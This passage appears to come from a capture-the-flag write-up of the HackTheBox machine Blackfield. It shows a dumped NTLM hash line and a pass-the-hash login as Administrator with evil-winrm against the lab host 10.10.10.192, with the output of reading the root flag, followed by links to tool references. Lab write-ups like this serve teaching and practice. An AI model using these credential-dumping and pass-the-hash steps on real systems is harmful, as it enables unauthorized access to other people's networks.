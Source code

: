 ```
BLACKFIELD.local\BLACKFIELD706381:1109:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
...
```

Again a PtH using [evil-winrm][evil-winrm] with Administrator account.

```
$ evil-winrm -u Administrator -H 184fb5e5178480be64824d4cd53b99ee -i 10.10.10.192

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> gc ../Desktop/root.txt
511fa0e63117cc3e746a523d0b5fd0b8
```

[nmap]:https://inventory.raw.pm/tools.html#Nmap
[JtR]:https://inventory.raw.pm/tools.html#John%20the%20Ripper,%20Jumbo%20version
[evil-winrm]:https://inventory.raw.pm/tools.html#Evil-WinRM
